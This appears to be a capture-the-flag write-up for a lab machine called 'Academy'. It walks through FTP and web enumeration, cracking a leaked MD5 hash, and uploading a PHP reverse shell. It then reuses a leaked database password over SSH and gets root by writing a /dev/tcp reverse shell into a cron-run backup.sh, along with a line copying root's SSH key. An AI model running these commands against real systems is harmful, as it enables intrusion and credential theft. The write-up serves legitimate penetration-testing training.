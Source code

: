# Academy
> 12.10.2023 - 12.10.2023
---
## Enumeration

**Nmap scan**
```bash
nmap -sC -sV 10.10.1.153
```

```
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.1.100
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 08:00:27:2B:D9:FB (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The FTP server has anonymous login on! It contains an note:

```note.txt
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.


I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.


Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta
```

We have gotten the following credentials:
```
StudentRegno: 10201321
studentPhoto: ""
password: cd73502828457d15655bbd7a63fb0bc8
studentName: Rum Ham
pincode: 777777
session: ""
department: ""
semester: ""
cgpa: 7.60
creationdate: 2021-05-29 14:36:56
updationDate: ""
```

The most important credentials are the *StudentRegno* and the *password* hash.

The hash can be cracked by using [CrackStation](https://crackstation.net/): "student" "MD5"

## Webserver

Visiting the webserver, I discovered the Apache standard site. Further directory enumeration can be done with "feroxbuster":

```bash
feroxbuster --url http://10.10.1.153 -x php,html,txt
```

```
404      GET        9l       31w      273c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      368l      933w    10701c http://10.10.1.153/index.html
301      GET        9l       28w      315c http://10.10.1.153/phpmyadmin => http://10.10.1.153/phpmyadmin/
200      GET       24l      126w    10356c http://10.10.1.153/icons/openlogo-75.png
200      GET      368l      933w    10701c http://10.10.1.153/
301      GET        9l       28w      312c http://10.10.1.153/academy => http://10.10.1.153/academy/
...
```

The directory: "academy" and "phpmyadmin" can be found.

## Academy

![[Capstone Academy01.png]]

We enter the credentials we have gotten earlier, to login into the account. Now go to the "My Profile" section, we find an unprotected upload section:

![[Capstone Academy02.png]]

To exploit this, start an netcat listener:

```bash
nc -lnvp 4200
```

and upload an reverse php shell with the host IP and port "4200":
[php-reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).

If everything goes right, we gain an shell as www-data.

## Lateral movement

Lets upload ["linpeas.sh"](https://github.com/carlospolop/PEASS-ng/releases/download/20231112-0a42c550/linpeas.sh) to enumerate the system:

```bash
# Attacker
python3 -m http.server 6969

# Victim
cd /tmp
wget http://10.10.1.100:6969/linpeas.sh
bash linpeas.sh
```

After analyzing the output, we see an leaked password in a php file:

```
╔══════════╣ Searching passwords in config PHP files
$cfg['Servers'][$i]['AllowNoPassword'] = false;                                                                                                               
$cfg['Servers'][$i]['AllowNoPassword'] = false;
$cfg['Servers'][$i]['AllowNoPassword'] = false;
$cfg['ShowChgPassword'] = true;
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_password = "My_V3ryS3cur3_P4ss";
```

Since the user "grimmie" exists, we try to ssh into the user using the following command:

```bash
ssh grimmie@10.10.1.153
password: My_V3ryS3cur3_P4ss
```

We successfully gotten the grimmie user.

## Privilege escalation

In the grimmie's home directory, we find a file called backup.sh
By looking at the "/etc/crontab" file, we see that this file will be executed by root every few seconds. So add a reverse shell in the second line of the backup.sh file and start an listener on another terminal:

```bash
nc -lnvp 4201
```

**backup.sh**
```bash
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.10.1.100/4201 0>&1

cat /root/.ssh/id_rsa >> /tmp/id_rsa

rm /tmp/backup.zip
zip -r /tmp/backup.zip /var/www/html/academy/includes
chmod 700 /tmp/backup.zip
```

with that, we gain the root privilege!

## Root-Flag

```
cat flag.txt 

Congratz you rooted this box !
Looks like this CMS isn't so secure...
I hope you enjoyed it.
If you had any issue please let us know in the course discord.
```